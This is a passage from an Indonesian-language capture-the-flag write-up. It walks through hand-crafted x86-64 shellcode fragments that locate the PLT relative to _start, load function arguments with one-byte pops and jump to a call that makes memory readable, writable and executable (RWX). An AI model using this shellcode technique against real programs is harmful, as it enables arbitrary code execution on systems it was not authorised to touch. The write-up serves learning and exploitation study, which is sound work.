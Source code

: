 PLT terletak sebelum \_start, jadi kita harus mengurangi nilai sebuah register. Selain r12, terlihat bahwa r13, r14, dan r15 tidak berubah nilai pada loop kita. Jadi saya memindahkan nilai r12 ke r13 dan menguranginya dengan nilai tertentu.

```asm
6
   0:   41 54                   push   r12
   2:   4d 89 e5                mov    r13, r12
   5:   c3                      ret
10
   0:   41 54                   push   r12
   2:   49 81 ed f0 00 00 00    sub    r13, 0xf0
   9:   c3                      ret
7
   0:   41 54                   push   r12
   2:   49 83 ed 3c             sub    r13, 0x3c
   6:   c3                      ret
```

Nah sekarang kita hanya perlu menyiapkan parameter fungsi. Karena ini binary 64-bit, parameter fungsi akan terletak pada rdi, rsi, rdx, rcx, r8, dan r9 berturut-turut. Kita hanya memerlukan tiga, jadi cuma perlu menyiapkan rdi, rsi, dan rdx. Untuk mencapai ini, saya menempatkan nilai-nilainya di stack dan kemudian melakukan `pop`. Alasan saya lakukan itu adalah karena `pop rdi`, `pop rsi`, dan `pop rdx` merupakan instruksi dengan panjang 1 byte.

```asm
8
   0:   58                      pop    rax
   1:   58                      pop    rax
   2:   58                      pop    rax
   3:   6a 07                   push   0x7
   5:   41 54                   push   r12
   7:   c3                      ret
10
   0:   58                      pop    rax
   1:   58                      pop    rax
   2:   5f                      pop    rdi
   3:   5e                      pop    rsi
   4:   5a                      pop    rdx
   5:   41 54                   push   r12
   7:   41 ff e5                jmp    r13
```

`pop rax` digunakan untuk menyiapkan stack menjadi kondisi yang sempurna. Ini mengakibatkan area <span style="color:#ff0000">rwx</span> yang panjang.

![Error](/assets/images/CJFinal-7.png)
